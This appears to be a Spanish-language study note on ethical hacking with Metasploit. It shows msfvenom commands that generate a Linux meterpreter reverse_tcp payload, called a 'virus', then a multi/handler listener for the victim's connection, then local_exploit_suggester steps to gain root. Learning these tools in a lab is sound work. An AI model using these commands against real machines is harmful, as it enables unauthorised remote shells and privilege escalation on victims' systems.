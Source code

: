 #Mestasploit #HackingEtico 

Para poder ultilizar algún *Payload* de msfvenon, requerimos saber los siguientes parámetros nuestra IP, el puerto que deseamos desear, y el payload que vamos a ultilizar. El comando para saber que payloads existen es:

```bash
msfvenon -l payload
```

Ahora para poder crear un virus con msfvenon requerimos saber a que tipo de maquina le vamos a ser el ataque en mi caso va hacer una maquina linux, por lo que el comando vendría siendo el siguiente

```bash
msfvenon -p linux/x64/meterpreter/reverse_tcp LHOST "IP" LPORT "PUERTO" -f "Extención" -o "Nombre y extencion a guardar"
```

Después de eso se nos va a almacenar en la carpeta actual el archivo con el nombre que lo guardamos anterior mente. Ahora nos vamos a poner por escucha con *msfconsole*, con los siguientes comando.

```bash
msfconsole
use /multi/handler
show options
set LHOST "IP"
set LPORT "PORT"
run
```

*/multi/handler* es el script que nos va a permitir realizar una conexión con la maquina victima, *show options*, es para poder ver las opciones para ver si están configurados la IP, y el Puerto, por lo que entonces en los siguientes comando lo que hacemos es configurar lo para que nos llegue la conexión, y *Run* es para iniciar el programa.

Ahora este se le envía el virus a la victima, en mi caso lo voy a ser todo Local, y después le daré permisos de ejecución. Después lo ejecutamos e inmediatamente podremos ver nuestra conexión en msfconsole. Estos son los comandos que podremos ejecutar.


---
## BUSCAMOS EXPLOITS PARA ESCALAR PRIVILEGIOS

- Mandamos las session a 2 plano con el comando de:
```BASH
background
```

- Vamos a usar la herramienta suggester con el siguiente comando: 
```Bash
use local_exploit_suggester
```

- Procedemos a utilizarlo
- Cargamos las session con 
```Bash
set SESSION "# QUE TOCO"
```
- Y procedemos a utilizarlo
- Seleccionamos uno de los exploit que no han dado y los iniciamos y configuramos.
- Escribimos *Run* y ya seremos usuarios root 
- Para confirmarlo solo tienes que escribir *Shell* y *Whoami*

![[Pasted image 20240112150506.png]]
